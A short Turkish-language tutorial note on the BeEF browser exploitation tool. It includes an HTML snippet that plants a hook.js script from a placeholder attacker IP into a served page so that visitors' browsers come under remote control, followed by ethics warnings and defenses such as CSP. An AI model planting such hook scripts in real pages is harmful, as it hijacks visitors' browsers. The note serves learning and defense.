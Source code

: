 - **BeEF**, hedefin **tarayıcısında JavaScript** çalıştırarak tarayıcı üzerinden kontrol sağlamaya yarayan bir araçtır. 🧩🌐
    
- Araç çalıştırıldığında saldırganın makinesinde **web tabanlı bir kontrol paneli** (web arayüzü) açılır; buradan bağlı (hooked) tarayıcılar yönetilir. 🖥️🎛️
    

---

### 🎣 Kurbanı "Oltalamak" (Hook Etme) 

- Saldırgan, kendi makinesini basitçe bir **web sunucusuna** çevirir (ör. `apache2 start`) ve `var/www/html/index.html` gibi bir karşılama sayfası ayarlar. 🛠️📂
    
- Bu sayfaya **zararlı JavaScript** (BeEF hook) eklenir:
    

```html
<h1>i hacked you</h1>
<script src="http://<saldırgan_ip>:3000/hook.js"></script>
```

- Kurbanın tarayıcısı bu sayfayı ziyaret ettiğinde tarayıcı **hooked browsers** listesine düşer ve saldırgan arayüzünden tarayıcıya komutlar gönderilebilir. 🔗📥
    
- Eğer saldırganın site erişilebilirliğini kaybederse (site kapanırsa), hook bağlantısı da kopar — erişim devamlı değildir. ⚠️🔌
    

---

### ⚠️ Etik ve Güvenlik Notları

- Bu tür teknikler **doğrudan kötüye kullanılabilir**. Yasal olmayan hedeflere karşı kullanım suçtur. 🚫👮‍♂️
    
- Bu bilgiyi **sadece izinli testler** (etik penetrasyon testi, kontrollü laboratuvar ortamı) veya savunma amaçlı öğrenme için kullan. 🧑‍🔬✅
    

---

### 🛡️ Savunma Önerileri (Kısa)

- Şüpheli sitelere/bağlantılara tıklama; bilinmeyen JS kaynaklarını engelle. 🚫🔗
    
- Tarayıcı ve eklentileri güncel tut, Content Security Policy (CSP) uygulamaları ve script kısıtlamalarını kullan. 🔐🛡️
    
- Kurumsal ağlarda web filtreleme, güçlü CSP ve kullanıcı eğitimleriyle risk azaltılır. 🏢📚
    

---
